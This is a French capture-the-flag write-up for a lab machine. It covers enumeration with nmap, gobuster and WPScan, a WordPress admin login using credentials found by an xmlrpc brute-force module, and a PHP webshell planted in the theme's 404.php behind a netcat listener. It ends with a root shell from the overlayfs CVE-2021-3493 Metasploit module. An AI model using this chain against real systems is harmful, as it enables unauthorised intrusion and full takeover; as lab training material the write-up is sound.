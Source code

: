 # Internal Write-up

## Enumération

### Nmap

#### Commande
`nmap -T4 -sC -sV -Pn -p- 10.10.33.91`

#### Informations
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)  
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)  
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (EdDSA)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Apache2 Ubuntu Default Page: It works

***

### Gobuster

#### Commandes
`gobuster dir -u http://10.10.33.91/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`  
`gobuster dir -u http://10.10.33.91/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`  
`gobuster dir -u http://10.10.33.91/phpmyadmin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`  
`gobuster dir -u http://10.10.33.91/blog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`

#### Informations
/wordpress (Status: 301)  
	/wp-content (Status: 301)  
	/wp-includes (Status: 301)  
	/wp-admin (Status: 301)  
	/wp-login.php  

/javascript (Status: 301)  

/blog (Status: 301)  
	/wp-content (Status: 301)  
	/wp-includes (Status: 301)  
	/wp-admin (Status: 301)  
	/wp-login.php  

/phpmyadmin (Status: 301)  
	/themes (Status: 301)  
	/templates (Status: 403)  
	/doc (Status: 301)  
	/js (Status: 301)  
	/libraries (Status: 403)  
	/setup (Status: 401)  
	/sql (Status: 301)  
	/locale (Status: 301)  

/server-status (Status: 403)  

***

### Wappalizer

#### Informations
Apache/2.4.29  
WordPress/5.4.2  
Theme : Twenty Seventeen  
phpMyAdmin  
Google Font API  
RSS  
CodeMirror  
Apache HTTP Server  
PHP  
MySQL  
jQuery  
jQuery UI  
jQuery Migrate  

***

### WPScan

#### Commande
`wpscan -h http://10.10.33.91/wordpress`

#### Informations

[+] XML-RPC seems to be enabled: http://10.10.33.91/wordpress/xmlrpc.php  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 100%  
 | References:  
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner  
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login	<= Succès  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access  

[+] WordPress readme found: http://10.10.33.91/wordpress/readme.html  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 100%  

[+] The external WP-Cron seems to be enabled: http://10.10.33.91/wordpress/wp-cron.php  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 60%  
 | References:  
 |  - https://www.iplocation.net/defend-wordpress-from-ddos  
 |  - https://github.com/wpscanteam/wpscan/issues/1299  

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).  
 | Found By: Emoji Settings (Passive Detection)  
 |  - http://10.10.33.91/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'  
 | Confirmed By: Meta Generator (Passive Detection)  
 |  - http://10.10.33.91/wordpress/, Match: 'WordPress 5.4.2'  

***

### Accès initial

> - Ajouter internal.thm dans /etc/host
> - Accèder à http://10.10.33.91/wordpress/wp-login.php  
> - Rentrer les identifiants "admin:my2boys" (récupérer via metasploit auxiliary/scanner/http/wordpress_xmlrpc_login)  
> - Naviguer vers “Appearance > Theme Editor > 404.php"
> - Remplacer le code par un webshell php
> - Lancer un listener (`nc -lvnp 4444`)
> - Accèder à la page http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php

### Escalade de privilège

> - Upgrader du webshell vers un meterpreter
> - Executer post(multi/recon/local_exploit_suggester)  
**Résultat :**  
>> 1.   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.  
>> 2.   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.  
>> 3.  exploit/linux/local/cve_2022_0995_watch_queue                        Yes                      The target appears to be vulnerable.  
>> 4.   exploit/linux/local/docker_cgroup_escape                            Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-112-generic is vulnerable  
>> 5.   exploit/linux/local/nested_namespace_idmap_limit_priv_esc           Yes                      The target appears to be vulnerable.  
>> 6.   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.  
>> 7.   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.  
>> 8.   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.  
>> 9.   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.  
>> 10.  exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1.2 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module  

> - Test exploit/linux/local/cve_2021_3493_overlayfs
> - **BINGO** Du premier coup!
> - On a un shell root, on fait ce que l'on veut


